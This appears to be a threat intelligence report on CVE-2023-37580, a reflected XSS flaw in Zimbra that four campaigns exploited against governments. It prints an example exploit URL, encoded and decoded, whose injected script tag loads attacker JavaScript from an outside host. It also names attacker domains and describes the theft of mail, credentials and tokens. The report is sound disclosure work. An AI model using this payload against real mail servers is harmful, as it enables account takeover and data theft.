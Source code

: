 







The Vulnerability CVE-2023-37580CVE-2023-37580 is a reflected cross-site scripting (XSS) vulnerability. XSS is a web application vulnerability that allows malicious scripts to be injected into another website. In this case, there was a vulnerability in Zimbra that injected the parameter within the URL directly into the webpage, causing the script to be executed. An example that could trigger the XSS is:https://mail.REDACTED[.]com/m/momovetost=acg%22%2F%3E%3Cscript%20src%3D%22https%3A%2F%2Fobsorth%2Eopwtjnpoc%2Eml%2FpQyMSCXWyBWJpIos%2Ejs%22%3E%3C%2Fscript%3E%2F%2Fwhich decodes to:https://mail.REDACTED[.]com/m/momoveto?st=acg"/><script src="https://REDACTED/script.js"></script>//The fix was to escape the contents of the st parameter before it was set as the value in an html object.




Campaign 1: First known exploitation leads to email-stealing frameworkThe initial in-the-wild discovery of the 0-day vulnerability was a campaign targeting a government organization in Greece. The attackers sent emails containing exploit urls to their targets. If a target clicked the link during a logged-in Zimbra session, the url loaded the same framework that Volexity documented in February 2022. This framework uses the XSS to steal users’ mail data, such as emails and attachments and to set up an auto-forwarding rule to an attacker-controlled email address. The framework was loaded from:https://obsorth.opwtjnpoc[.]ml/pQyMSCXWyBWJpIos.js




Campaign 2: Winter Vivern exploitation after hotfix pushed to GithubThe patch for the vulnerability was pushed to Github on July 5. Another actor exploited the vulnerability for a full two weeks beginning on July 11 before the official patch became available on July 25. TAG identified multiple exploit urls that targeted government organizations in Moldova and Tunisia; each url contained a unique official email address for specific organizations in those governments. TAG attributes this activity to Winter Vivern (UNC4907), an APT group known to exploit XSS in Zimbra and Roundcube. The vulnerability was used to load scripts at:https://applicationdevsoc[.]com/zimbraMalwareDefender/zimbraDefender.jshttps://applicationdevsoc[.]com/tndgt/auth.js




Campaign 3: Exploit used for credential phishingDays before Zimbra pushed their official patch on July 25, TAG observed a third, unidentified group exploiting the vulnerability as part of a campaign that phished for credentials belonging to a government organization in Vietnam. In this case, the exploit url pointed to a script that displayed a phishing page for users’ webmail credentials and posted stolen credentials to a url hosted on an official government domain that the attackers likely compromised.




Campaign 4: N-day exploit used for stealing authentication tokenIn August 2023, after the patch for CVE-2023-37580 was released, TAG discovered a fourth campaign using the vulnerability against a government organization in Pakistan. The exploit was used to steal the Zimbra authentication token. The token was exfiltrated to ntcpk[.]org.



